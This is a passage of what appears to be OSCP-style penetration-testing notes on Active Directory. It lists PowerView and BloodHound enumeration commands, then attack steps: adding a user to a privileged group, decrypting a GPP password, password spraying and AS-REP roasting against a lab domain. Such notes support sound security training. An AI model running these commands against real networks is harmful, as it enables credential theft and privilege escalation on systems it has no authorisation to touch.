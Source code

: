 `PS C:\> Import-Module .\PowerView.ps1`
`PS C:\> Get-NetDomain`
`PS C:\> Get-NetUser`
`PS C:\> Get-NetUser | select cn`
`PS C:\> Get-NetUser | select cn,pwdlastset,lastlogon`
`PS C:\> Get-NetGroup "Sales Department" | select member`
`PS C:\> Get-NetComputer`
`PS C:\> Get-NetComputer | select operatingsystem,dnshostname`
`PS C:\> Find-LocalAdminAccess`
`PS C:\> Get-NetSession -ComputerName files04 -Verbose`
`PS C:\> Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl`
`PS C:\> Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion`

`PS C:\> .\PsLoggedon.exe \\files04`
> Check logged on users on machine through remote registry (if enabled)

`C:\> setspn -L iis_service`
`PS C:\> Get-NetUser -SPN | select samaccountname,serviceprincipalname`
`PS C:\> Get-ObjectAcl -Identity stephanie
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104`
`PS C:\> Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName`

`C:\> net group "Management Department" stephanie /add /domain`
`PS C:\> Get-NetGroup "Management Department" | select member`
`PS C:\> Find-DomainShare`
`kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"`

<a name="active-directory-automated-enumeration"></a>
## Active Directory - Automated Enumeration
`PS C:\> Import-Module .\Sharphound.ps1`
`PS C:\> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\Administrator\Documents\ -OutputPrefix "oscp audit"`

`kali@kali:~$ sudo neo4j start`

`kali@kali:~$ bloodhound`
> Some useful queries

`MATCH (m:Computer) RETURN m`
`MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`

<a name="attacking-active-directory-authentication"></a>
# Attacking Active Directory Authentication

<a name="password-attacks-1"></a>
## Password Attacks
`PS C:\> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin`

<a name="as-rep-roasting"></a>
## AS-REP Roasting
`kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete`
